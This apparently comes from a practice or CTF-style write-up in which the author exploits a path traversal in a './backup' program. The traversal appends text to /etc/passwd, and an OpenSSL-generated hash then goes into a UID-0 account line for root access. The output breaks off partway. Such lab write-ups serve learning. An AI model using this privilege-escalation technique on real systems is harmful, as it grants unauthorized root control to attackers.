 ```bash
```

### It seems, that this code  have some kind of path/directory traversal vulnerability

```bash
# Let's run the program and write my name for proof
[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: Danielkaas94
# We add the path "/srv/backups/../../etc/passwd"                                                                            
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd

# Let's check the content of /etc/passwd
[py@archlinux secret_stuff]$ cat /etc/passwd 
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
py:x:1000:1000::/home/py:/bin/bash
git:x:974:974:git daemon user:/:/usr/bin/git-shell
redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
Danielkaas94
[py@archlinux secret_stuff]$
# As you can see, my name Danielkaa94 has been added at the end of the Linux password file
# we can somehow create a new account on this machine with root access/ high Privilege user

# OpenSSL - We will create the hash with a pair of username and password
# username: daacals
# password: password
# openssl passwd -1 -salt daacals password
┌──(kali㉿kali)-[~]
└─$ openssl passwd -1 -salt daacals password
$1$daacals$nkjJrhh3mq1CYoF/hul/w.

# Now open mousepad and modify our line we have to insert in /etc/passwd
# Use the string of root:x:0:0::/root:/bin/bash for merging
# Replace root with the username and x with the generated salted hash 🧂
# The final string of text should like something like this 
daacals:$1$daacals$nkjJrhh3mq1CYoF/hul/w.:0:0::/root:/bin/bash

# Now let's use the backup script from before! But this time we paste our newly created string
[py@archlinux secret_stuff]$ ./backup 
Enter a line of text to back up: daacals:$1$daacals$nkjJrhh3mq1CYoF/hul/w.:0:0::/root:/bin/bash
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd
[py@archlinux secret_stuff]$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
```